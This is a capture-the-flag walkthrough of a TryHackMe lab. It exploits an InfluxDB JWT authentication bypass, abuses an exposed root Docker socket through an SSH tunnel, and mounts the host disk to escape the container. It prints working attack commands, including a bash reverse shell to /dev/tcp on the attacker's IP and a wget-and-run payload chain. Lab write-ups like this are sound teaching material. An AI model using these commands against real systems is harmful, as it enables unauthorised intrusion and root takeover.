

# Sweettooth CTF [TryHackMe](https://tryhackme.com/room/sweettoothinc)

---


---

## Index
- [Enumeration](#enumeration)

---

### Enumeration

```bash
export IP=10.10.175.112
```

Let's kick off with some `nmap` enumeration:

```bash
nmap -sV -sC -A -v $IP -oN nmap/initial.log
```

```
# Nmap 7.91 scan initiated Tue Jul 27 17:52:38 2021 as: nmap -vvv -p 111,2222,8086,56464 -sC -sV -A -v -oN nmap/initial.log 10.10.175.112
Nmap scan report for 10.10.175.112
Host is up, received conn-refused (0.15s latency).
Scanned at 2021-07-27 17:52:39 +04 for 19s

PORT      STATE SERVICE REASON  VERSION
111/tcp   open  rpcbind syn-ack 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          41160/udp   status
|   100024  1          50099/udp6  status
|   100024  1          56464/tcp   status
|_  100024  1          59684/tcp6  status
2222/tcp  open  ssh     syn-ack OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey:
|   1024 b0:ce:c9:21:65:89:94:52:76:48:ce:d8:c8:fc:d4:ec (DSA)
| ssh-dss AAAAB3NzaC1kc3MAAACBALOlP9Bx9VQxs4JDY8vovlJp+l+pPX2MGttzN2gGNYABXAVSF9CA14OituA5tcJd5/Nv3Ru3Xyu8Yo5SV0d82rd7L/NF5Relx+iiVF+bigo329wbV3wsIrRQGUYHXiMjAs8WqQR+XKjOm3q4QLVxe/jU1I1ddy6/xO4fL7nOSh3RAAAAFQDKuQDe9pQtmnqvJkZ7QuCGm31+vQAAAIBENh/MS3oHvz1tCC4nZYwdAYZMBj2It0gYCMvD0oSkqL9IMaP9DIt/5G3D9ARrZPeSP4CqhfryIGHS7t59RNdnc3ukEsfJPo23bPBwWdIW7HXp9XDqyY1kD6L3Tq0bpeXpeXt6FQ93rFxncZngFkCrMD4+YytS532qPHMPOWh75gAAAIA7TohVech8kWTh6KIMl2Y61s9cwUqwrTkqJIYMdZ73nP69FD0bw08vyrdAwtVnsqRaNzsVVz9sBOOz3wmp/ZNI5NiuyA0UwEcxPj5k6jCn620gBpMEzVy6a8Ih3yRYHoiVMrQ/PIuoeIGxeYGckCorv8jSz2O3pq1Fnz23FRPH2A==
|   2048 7e:86:88:fe:42:4e:94:48:0a:aa:da:ab:34:61:3c:6e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCbBmLBPg9mxkAdEbJGnz0v6Jzo4qdBcajkaIBKewKyz6OQTvyhVcDReSB2Dz0nl4mPCs3UN58hSNStCYXjZcpIBpqz2pHupVlqQ7u41Vo2W8u0nVFLt2U8JhTtA9wE6MA9GhitkN3Qorhxb3klCpSnWCDdcmkdNL0EYxZV53A52VWiNGX3vYkdMAKHAmp/VHvrsIeHozqflL8vD2UIoDmxDJwgXJRsr2iGVU1fL/Bu/DwlPwJkm50ua99yPpZbvCS9EwWki76aEtZSbcM4WHzx33Oe3tLXLCfKc9CJdIW35nBvpe5Dxl7gLR/mCHp2iTpdx1FmpSf+JjO/m2vKwL4X
|   256 04:1c:82:f6:a6:74:53:c9:c4:6f:25:37:4c:bf:8b:a8 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHufHfqIZHVEKYC/yyNS+vTt35iULiIWoFNSQP/Bm/v90QzZjsYU9MSt7xdlR/2LZp9VWk32nl5JL65tvCMImxc=
|   256 49:4b:dc:e6:04:07:b6:d5:ab:c0:b0:a3:42:8e:87:b5 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJEYHtE8GbpGSlNB+/3IWfYRFrkJB+N9SmKs3Uh14pPj
8086/tcp  open  http    syn-ack InfluxDB http admin 1.3.0
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
56464/tcp open  status  syn-ack 1 (RPC #100024)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/local/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul 27 17:52:58 2021 -- 1 IP address (1 host up) scanned in 20.28 seconds
```

We have some pretty interesting and atypical ports found.
Looking at port `8086` we can see there is a service running `InfluxDB v1.3.0`.

---

### Finding vunerabilities

Doing some research, we come across a vunerability for `InfluxDB` versions less than **1.7.9**. Meaning we can most likely use this vunerability.

```
Affected versions of this package are vulnerable to Authentication Bypass. InfluxDB has an authentication bypass vulnerability in the authenticate function in services/httpd/handler.go because a JWT token may have an empty SharedSecret (aka shared secret).
```
[Source](https://snyk.io/vuln/SNYK-GOLANG-GITHUBCOMINFLUXDATAINFLUXDBSERVICESHTTPD-1041719)

And we can find a POC [here](https://www.komodosec.com/post/when-all-else-fails-find-a-0-day) from `komdosec.com`

But before we can use this - we have to find a user with which to authenticate with. From `komodosec` and the `InfluxDB` docs, we can see there is an endpoint `http://$IP:8086/debug/requests` which may contain users with which we can authenticate with.

Navigating to that directory...we find a user! With 2 writes and 2 queries.

We can now generate a JWT token with which to exploit the vunerability with.

Using [jwt.io](https://jwt.io/):

Header (unchanged):
```json
{
  "alg": "HS256",
  "typ": "JWT"
}
```

Payload:
```json
{
"username":"[REDACTED]",
"exp":1659015392
}
```

Verify Signature:
```
```

Nothing should be in that field - part of the exploit remember.

Now using the [InfluxDB Docs](https://docs.influxdata.com/influxdb/v1.8/administration/authentication_and_authorization/#authenticate-using-jwt-tokens) to craft up our curl command:

```bash
curl -G "http://$IP/query?db=demodb" \
  --data-urlencode "q=SHOW DATABASES" \
  --header "Authorization: Bearer <JWT TOKEN HERE>"
```

```json
{"results":[{"statement_id":0,"series":[{"name":"databases","columns":["name"],"values":[["creds"],["docker"],["tanks"],["mixer"],["_internal"]]}]}]}
```

And we can view the database!
Also since we are the only user on this server - we are automatically admin meaning we can execute priviledged commands.

```bash
curl -G "http://$IP:8086/query?db=demodb" \
  -X POST \
  --data-urlencode "q=CREATE USER todd WITH PASSWORD '123456' WITH ALL PRIVILEGES"\
  --header "Authorization: Bearer <JWT TOKEN HERE>"
```
(Note the -X POST)

Now at this point I tried to use the `InfluxDB` CLI but I kept running into strange issues with it - so instead I swapped to using `python`'s

`pip install influxdb`

I used the interactive console to query and test results but I have included them here as a neatened script:

```python
from influxdb import InfluxDBClient
client = InfluxDBClient("$IP", '8086', 'new_user', 'new_password')
print(f"Version: {client.ping()}")

print(client.query('show databases'))

client.switch_database('creds')
print(client.query('show tag keys'))
print(client.query("select * from ssh"))
print("We now have the ssh authentication details\n"
      "I'll leave you to figure out how to get the answers for the other questions")
```

We can now ssh into the machine with our new credentials

```bash
ssh -p 2222 [REDACTED]@$IP
```

And now we have the user credentials!

---

### Priviledge Escalation

Let's kick off with `sudo -l`

`-bash: sudo: command not found`

Lets call this a sign of things to come...

Maybe this? `getcap / -R 2>/dev/null`

`-bash: getcap: command not found`

I'm just going to use `linpeas` to do this for me.

At first the Linux version `3.16.0` seems to be exploitable but uploading the `c` file reveals that `gcc` is not on this machine and I'm on a mac so I can't compile it for the machine.

`Docker socket /var/run/docker.sock is writable (https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-docker-socket)`

Nice! Lets use a standard `docker` script to escalate priviledges.

`-bash: docker: command not found`

ok then...

Lets instead look at what processes are running:



Looks like root is doing something funky with some scripts located in the root directory.

Checking `initializeandquery.sh` we can see at the bottom of the script:

```bash
...
socat TCP-LISTEN:8080,reuseaddr,fork UNIX-CLIENT:/var/run/docker.sock &

# query each 5 seconds and write docker statistics to database
while true; do
  curl -o /dev/null -G http://localhost:8086/query?pretty=true --data-urlencode "q=show databases" --data-urlencode "u=[REDACTED]" --data-urlencode "p=[REDACTED]"
  sleep 5
  response="$(curl localhost:8080/containers/json)"
  containername=`(jq '.[0].Names' <<< "$response") | jq .[0] | grep -Eo "[a-zA-Z]+"`
  status=`jq '.[0].State' <<< "$response"`
  influx -username o5yY6yya -password [REDACTED] -execute "insert into docker.autogen stats containername=\"$containername\",stats=\"$status\""
done
```

Remember: root is running this _currently_ on port `8080` and it is some sort of docker container.

Lets get access to that port (not on our `nmap` scan from earlier) by:

```bash
ssh -p 2222 [REDACTED]@$IP -L 8080:localhost:8080
```

Navigating to `http://localhost:8080/containers/json` we can view the page/json!

So we have access to a docker container that has been run by root.

```bash
docker -H tcp://localhost:8080 container ls
```

```
CONTAINER ID   IMAGE                  COMMAND                  CREATED          STATUS          PORTS                                          NAMES
9c219cccb22c   sweettoothinc:latest   "/bin/bash -c 'chmod…"   10 minutes ago   Up 10 minutes   0.0.0.0:8086->8086/tcp, 0.0.0.0:2222->22/tcp   sweettoothinc
```

Right - we should now _hopefully_ be able to execute commands on the machine now as root.

```bash
docker -H tcp://localhost:8080 container exec sweettoothinc whoami
```

```
root
```

We are now **_root_**. Boy was this tricky... but we are not done _quite_ yet.

First I tried to create a bog standard reverse-shell

```bash
docker -H tcp://localhost:8080 container exec sweettoothinc bash -i >& /dev/tcp/$MY_IP/9999 0>&1
```

But it connects with some sort of terminal failure.

```bash
echo 'bash -i >& /dev/tcp/$MY_IP/9999 0>&1' > scripts/revshell.sh && \
cd scripts && \
python -m http.server 8888 && \
docker -H tcp://localhost:8080 container exec sweettoothinc wget http://$MY_IP:8888/revshell.sh && \
docker -H tcp://localhost:8080 container exec sweettoothinc bash -i revshell.sh
```
And viola! We have a shell! and we can grab root.txt

---

### Escaping the container

This has definitely not been easy but we are not done yet. The shell feels super awkward to work in so I change root's password with `passwd root` to `1234` and ssh into the user from earlier and `su root`.

I also add `/sbin` to my `PATH` as it was mysteriously missing and run `fdisk -l` and notice a strange partition:


```

Disk /dev/xvda: 16 GiB, 17179869184 bytes, 33554432 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0xa8257195

Device     Boot    Start      End  Sectors  Size Id Type
/dev/xvda1 *        2048 32088063 32086016 15.3G 83 Linux
/dev/xvda2      32090110 33552383  1462274  714M  5 Extended
/dev/xvda5      32090112 33552383  1462272  714M 82 Linux swap / Solaris

Disk /dev/xvdh: 1 GiB, 1073741824 bytes, 2097152 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
```

`/dev/xvda1` seems to be our boot device and probably has the flag we need...

```bash
mkdir /mnt/tmp && \
mount /dev/xvda1 /mnt/tmp && \
cd /mnt/tmp; ls
```

```
bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
```

We have _done_ it! Out of the container and with the second root flag, excellent!

---

### Final Thoughts

As someone who just recently transititioned from easy to medium rooms, this _kicked_ my ass. I spent the entire day on this one room learning about `InfluxDB` and trying to debug the silly errors I faced. Then having to check for hints on PrivEsc as I learnt about exploiting running processes; followed by having to be more familiar with `docker` and `ssh` tunnelling.
And escaping the container while is simple once its been done - was a pain to try figure out.

I would definitely classify this box a medium-to-hard box. If you are starting out, its a very tough box that you'll need hints for when you get stuck. Highly recommended though..

---


